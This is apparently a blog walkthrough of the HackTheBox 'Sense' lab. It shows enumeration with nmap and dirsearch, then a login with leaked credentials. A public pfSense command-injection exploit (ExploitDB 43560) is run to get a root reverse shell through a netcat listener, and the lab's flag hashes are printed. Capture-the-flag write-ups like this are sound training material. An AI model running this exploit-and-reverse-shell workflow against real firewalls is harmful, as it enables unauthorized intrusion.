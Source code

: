 ```yaml
---
layout: post
title: HackTheBox Sense
date: 2017-10-21
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access. ([Source](https://www.hackthebox.com/machines/sense))

# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.0034s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), FreeBSD 8.X (85%), OpenBSD 4.X (85%)
OS CPE: cpe:/o:freebsd:freebsd:8.1 cpe:/o:openbsd:openbsd:4.0
Aggressive OS guesses: Comau C4G robot control unit (92%), FreeBSD 8.1 (85%), OpenBSD 4.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   3.53 ms 10.10.14.1
2   3.55 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds
```

It seems like there is a website, let’s check it out!

![website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sense/website.png?raw=true)

Trying the default credentials `admin:pfsense` did not work :(

Let’s run a `dirsearch` then!

>   Note: was stuck here for awhile because the important file was hidden in a `txt` file

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# dirsearch -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -e txt, php
...
[21:00:28] Starting: 
[21:00:29] 301 -    0B  - /themes  ->  https://10.10.10.60/themes/
[21:00:32] 301 -    0B  - /css  ->  https://10.10.10.60/css/
[21:00:32] 301 -    0B  - /includes  ->  https://10.10.10.60/includes/
[21:00:35] 301 -    0B  - /javascript  ->  https://10.10.10.60/javascript/
[21:00:37] 200 -  271B  - /changelog.txt
[21:00:38] 301 -    0B  - /classes  ->  https://10.10.10.60/classes/
[21:00:41] 301 -    0B  - /widgets  ->  https://10.10.10.60/widgets/
[21:00:54] 200 -    7KB - /tree/
[21:00:54] 301 -    0B  - /tree  ->  https://10.10.10.60/tree/
[21:01:10] 301 -    0B  - /shortcuts  ->  https://10.10.10.60/shortcuts/
[21:01:27] 301 -    0B  - /installer  ->  https://10.10.10.60/installer/
[21:01:27] 302 -    0B  - /installer/  ->  installer.php
[21:01:37] 301 -    0B  - /wizards  ->  https://10.10.10.60/wizards/
[21:09:19] 301 -    0B  - /csrf  ->  https://10.10.10.60/csrf/
[21:18:25] 200 -  106B  - /system-users.txt
[21:21:06] 301 -    0B  - /filebrowser  ->  https://10.10.10.60/filebrowser/
...
```

It seems like there were some interesting `txt` files called `changelog.txt` and `system-users.txt`!

![changelog](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sense/changelog.png?raw=true)

It seems to say that there are 2 of 3 vulnerabilities that were patched.

![system_users](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sense/system_users.png?raw=true)

We got some credentials to work on! Let’s try logging in!

>   Note: it turns out the credentials were actually `rohit:pfsense` instead of `Rohit:company defaults`

![logged_in](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sense/logged_in.png?raw=true)

The most important information here is probably the version number, so let’s do some research :D

# Exploitation

After some Google searches, I found that the version has a command injection vulnerability listed on [ExploitDB](https://www.exploit-db.com/exploits/43560).

Let’s grab the script using `searchsploit`, start a netcat listener and exploit!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sense]
└─# searchsploit -m 43560

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sense]
└─# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.3 --lport 1234 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.60] 16918
sh: can't access tty; job control turned off
# whoami 
root
# cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b 
# cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
```
